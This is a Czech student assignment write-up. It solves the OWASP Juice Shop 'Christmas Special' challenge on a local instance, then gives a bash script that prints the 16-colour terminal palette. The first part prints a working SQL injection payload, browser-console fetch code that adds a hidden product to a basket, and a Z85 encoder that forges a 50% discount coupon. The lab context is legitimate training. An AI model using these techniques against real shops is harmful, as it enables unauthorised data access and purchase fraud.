





# Zápočtové úkoly – OWASP Juice Shop a paleta barev

Vypracováno a ověřeno 23. 10. 2026. Níže je postup pro zopakování první úlohy přímo ve vývojářské konzoli prohlížeče. Snímky dokládají nalezený produkt, košík, přijatou slevu a dokončenou objednávku.

## 1. Vánoční speciál 2014 a sleva 50 %

### Zadání

V místním OWASP Juice Shopu koupit Vánoční speciál z roku 2014 a použít kupón na 50% slevu pro říjen 2026. Aplikace běží na `http://localhost:3000`. Údaje o zákazníkovi, adresa i karta jsou smyšlené; jde o místní laboratorní cvičení.

### 1. Přihlášení a otevření konzole

Na stránce Juice Shopu stisknu **F12** nebo **Ctrl + Shift + J** a otevřu záložku **Console / Konzole**. Příkazy níže zadávám právě sem, ne do systémového terminálu.

Konzole umožňuje spouštět JavaScript přímo v otevřené stránce. Funkcí `fetch()` odešlu požadavek do stejné aplikace, ve které jsem přihlášený. `await` počká, než dorazí odpověď. Pokud blok spouštím znovu, proměnné deklarované pomocí `var` lze použít opakovaně.

### 2. Nalezení skrytého produktu

Nejprve si vyzkouším obyčejné hledání:

```javascript
var bezneHledani = await fetch('/rest/products/search?q=Christmas');
console.log(await bezneHledani.json());
```

Běžný dotaz v ověřené instanci vrátil prázdné pole `data`. Pro nalezení starého produktu použiji tento vstup:

```text
Christmas%'))--
```

Do konzole zadám:

```javascript
var hledanyText = "Christmas%'))--";
var odpovedProduktu = await fetch(
  '/rest/products/search?q=' + encodeURIComponent(hledanyText)
);
if (!odpovedProduktu.ok) throw new Error('Hledání se nepovedlo.');
var nalezeneProdukty = await odpovedProduktu.json();
console.table(nalezeneProdukty.data);
```

`encodeURIComponent()` upraví zvláštní znaky tak, aby se daly bezpečně vložit do adresy požadavku. `json()` přečte odpověď serveru a `console.table()` zobrazí produkty přehledně v tabulce.

Jde o SQL injection. Aplikace vloží hledaný text přímo do databázového dotazu. Apostrof a závorky uzavřou jeho původní část a `--` zakomentuje zbytek, včetně podmínky pro vyřazení odstraněného zboží. Díky tomu se v odpovědi objeví i skrytý produkt.

| Údaj | Hodnota |
| --- | --- |
| Název | Christmas Super-Surprise-Box (2014 Edition) |
| ID produktu | `10` |
| Cena | `29.99` |
| Stav | Vyplněné `deletedAt`, tedy produkt skrytý jako odstraněný. |

Následující snímek zachycuje odpověď stejného vyhledávacího API otevřenou v prohlížeči. Není to snímek samotné konzole; v konzoli se stejné údaje zobrazí jako tabulka.



V této verzi aplikace běžné vyhledávací pole stále ukazovalo „No results found“. Proto pokračuji požadavkem z konzole.

### 3. Přidání produktu do svého košíku

Z přihlášené stránky si vezmu token a číslo vlastního košíku. Aplikace je po přihlášení ukládá do úložiště prohlížeče:

```javascript
var token = localStorage.getItem('token');
var cisloKosiku = Number(sessionStorage.getItem('bid'));

if (!token || !Number.isInteger(cisloKosiku) || cisloKosiku <= 0) {
  throw new Error('Nejdřív se přihlas do Juice Shopu a pak blok spusť znovu.');
}
```

Token funguje jako dočasný přihlašovací klíč. Není potřeba ho ručně kopírovat ani znovu zadávat heslo. Token nezveřejňuji a nefotím ho do dokumentace.

Potom do stejné konzole zadám:

```javascript
var pridani = await fetch('/api/BasketItems/', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Authorization': 'Bearer ' + token
  },
  body: JSON.stringify({
    ProductId: 10,
    BasketId: cisloKosiku,
    quantity: 1
  })
});

if (!pridani.ok) {
  throw new Error('Přidání se nepovedlo: ' + await pridani.text());
}
console.log('Produkt byl přidán do košíku.', await pridani.json());
```

`POST` vytvoří položku košíku. `headers` obsahuje typ dat a přihlášení. `JSON.stringify()` převede zadané údaje na text ve formátu JSON. `ProductId` je číslo produktu, `BasketId` číslo mého košíku a `quantity` počet kusů.

Tento blok spustím **jen jednou**, abych produkt nepřidal opakovaně. Potom otevřu **Your Basket**, případně obnovím stránku. Zkontroluji jeden Vánoční speciál za `29.99`.



### 4. Vytvoření kupónu v konzoli

Juice Shop používá pro tento typ kupónu kódování **Z85**. Je to převod textu do jiné textové podoby, ne šifrování. Formát byl ověřen ve zdrojovém kódu místní aplikace. Pro říjen 2026 a slevu 50 % potřebuji zakódovat:

```text
OCT26-50
```

- `OCT` znamená říjen.
- `26` znamená rok 2026.
- `50` znamená slevu 50 %.

Abych nemusel používat další program nebo webovou stránku, převedu text přímo v konzoli tímto JavaScriptem:

```javascript
function zakodujZ85(text) {
  var abeceda = '0123456789abcdefghijklmnopqrstuvwxyz' +
    'ABCDEFGHIJKLMNOPQRSTUVWXYZ.-:+=^!/*?&<>()[]{}@%$#';
  var bajty = new TextEncoder().encode(text);
  if (bajty.length % 4 !== 0) {
    throw new Error('Z85 potřebuje počet bajtů dělitelný čtyřmi.');
  }
  var vysledek = '';
  for (var i = 0; i < bajty.length; i += 4) {
    var cislo = bajty[i] * 16777216 + bajty[i + 1] * 65536 +
      bajty[i + 2] * 256 + bajty[i + 3];
    var skupina = '';
    for (var j = 0; j < 5; j++) {
      skupina = abeceda[cislo % 85] + skupina;
      cislo = Math.floor(cislo / 85);
    }
    vysledek += skupina;
  }
  return vysledek;
}

var kupon = zakodujZ85('OCT26-50');
console.log('Kupón na říjen 2026 se slevou 50 %:', kupon);
```

Funkce zpracovává vždy čtyři bajty textu a převede je na pět znaků Z85. Pro zadání stačí změnit text v posledním volání funkce; zbytek převodu nechám stejný.

Konzole vypíše:

```text
pEw8phz3^u
```

Kupón platí pro říjen 2026. Aplikace porovnává jeho měsíc s aktuálním měsícem serveru.

### 5. Použití kupónu

Zavřu nebo zmenším vývojářské nástroje. V košíku kliknu na **Checkout**, vyplním smyšlenou adresu a vyberu **Standard Delivery** za `0.00`. V části plateb rozbalím **Add a coupon**, zadám `pEw8phz3^u` a kliknu na **Redeem**.

Aplikace potvrdí **Your discount of 50% will be applied during checkout.** Při doloženém nákupu klesla částka na platební obrazovce na `14.99`.



### 6. Dokončení nákupu

Pro místní simulaci přidám testovací kartu `4111111111111111` se jménem **Student Test**. Vyberu ji, kliknu na **Proceed to review** a objednávku dokončím přes **Place your order and pay**.

Úspěšný nákup poznám podle **Thank you for your purchase!**. Doložená objednávka má číslo:

```text
f29b-4a233c121138e735
```



**Zaokrouhlení ceny:** Platební obrazovka ukazuje `14.99`, ale konečné potvrzení `15.00`. Polovina z `29.99` je `14.995` a tato verze aplikace zaokrouhluje v různých krocích rozdílně. Potvrzení obsahuje zboží za `29.99`, dopravu `0.00`, slevu `14.99` a výslednou cenu `15.00`.

### 7. Kontrola výsledku v konzoli

Po nákupu mohu ve stejné konzoli ověřit obsah objednávky:

```javascript
// Při vlastním opakování sem doplním číslo své nové objednávky.
var cisloObjednavky = 'f29b-4a233c121138e735';
var kontrolaObjednavky = await fetch(
  '/rest/track-order/' + encodeURIComponent(cisloObjednavky),
  { headers: { 'Authorization': 'Bearer ' + localStorage.getItem('token') } }
);
if (!kontrolaObjednavky.ok) throw new Error('Objednávku se nepodařilo načíst.');
console.log(await kontrolaObjednavky.json());
```

Ověřená objednávka obsahuje produkt ID `10`, množství `1` a slevu `14.99`. Úloha **Christmas Special** je označená jako splněná. Byla tak označená už před doloženým opakováním; důkaz nového nákupu tvoří nové potvrzení objednávky. Úloha **Forged Coupon** vyžaduje vyšší slevu a není součástí tohoto zadání.

## 2. Skript pro paletu 16 barev terminálu

### Co má skript dělat

Podle obrázku ze zadání má vypsat 16 řádků a tři sloupce:

1. Obyčejný název barvy.
2. Název napsaný příslušnou barvou.
3. Název na příslušném barevném pozadí.

Hotový soubor je [paleta.sh](paleta.sh).

### Spuštění

Ve složce se souborem otevřu terminál a zadám:

```bash
bash paleta.sh
```

Případně mu nastavím právo ke spuštění a spustím ho přímo:

```bash
chmod +x paleta.sh
./paleta.sh
```

### Jak jsem skript sestavil

Nejdřív jsem si do pole `nazvy` napsal všech 16 názvů v pořadí podle obrázku. Do dalších dvou polí jsem zapsal ANSI kódy pro písmo a pozadí. Pořadí kódů není jen od nejmenšího po největší, protože například modrá je v zadání před červenou.

| Typ barvy | Písmo | Pozadí |
| --- | --- | --- |
| Základních 8 barev | `30–37` | `40–47` |
| Světlých 8 barev | `90–97` | `100–107` |

Potom jsem použil smyčku `for`, která projde všechny názvy. Pomocí `printf` se na každém řádku vypíšou tři sloupce. Zápis `%-15s` vyhradí 15 znaků a zarovná text doleva. Tím sloupce zůstanou pod sebou.

Například:

```bash
printf '\033[34mModry text\033[0m\n'
printf '\033[44mModre pozadi\033[0m\n'
```

`\033[` začne řídicí sekvenci pro terminál, číslo vybere barvu a `m` ji použije. `\033[0m` nastavení zase zruší, aby další text nezůstal obarvený. `\n` přejde na nový řádek.

### Celý skript

```bash
#!/usr/bin/env bash
# Vypíše 16 základních barev terminálu ve třech sloupcích.
# První sloupec: názvy. Druhý: barevné písmo. Třetí: barevné pozadí.

nazvy=(Black DarkBlue DarkGreen DarkCyan DarkRed DarkMagenta DarkYellow Gray
       DarkGray Blue Green Cyan Red Magenta Yellow White)
# Pořadí ANSI kódů upravuji podle pořadí barev na obrázku zadání.
popredi=(30 34 32 36 31 35 33 37 90 94 92 96 91 95 93 97)
pozadi=(40 44 42 46 41 45 43 47 100 104 102 106 101 105 103 107)

for i in "${!nazvy[@]}"; do
    # %-15s zarovná název doleva na šířku 15 znaků.
    # \033[...m nastaví barvu. \033[0m vrátí původní vzhled.
    printf '%-15s\033[%sm%-15s\033[0m\033[%sm%-15s\033[0m\n' \
        "${nazvy[i]}" "${popredi[i]}" "${nazvy[i]}" \
        "${pozadi[i]}" "${nazvy[i]}"
done
```

### Kontrola výsledku

Zkontroloval jsem syntaxi příkazem:

```bash
bash -n paleta.sh
```

Příkaz skončil bez chyby. Skript jsem také skutečně spustil a ověřil, že vypisuje přesně 16 řádků a na každém tři názvy barev.

Následující snímek je **náhled skutečného výstupu skriptu převedeného z ANSI sekvencí do HTML**, nikoli fotografie terminálového okna. Používá ukázkovou paletu. Konkrétní odstíny při spuštění v terminálu určuje jeho barevné téma, takže mohou vypadat trochu jinak než na obrázku ze zadání. Černé písmo na tmavém pozadí může být špatně viditelné.



## Přiložené soubory

- [paleta.sh](paleta.sh) – spustitelný Bash skript s českými komentáři.
- [overeni.json](overeni.json) – stručný záznam ověření bez hesel a přihlašovacích tokenů.
- [screenshots](screenshots/) – skutečné snímky z místní aplikace a náhled palety.

Postup byl ověřen na místní instanci Juice Shopu. SQL injection zde slouží pouze jako řešení školního cvičení v úmyslně zranitelné aplikaci.
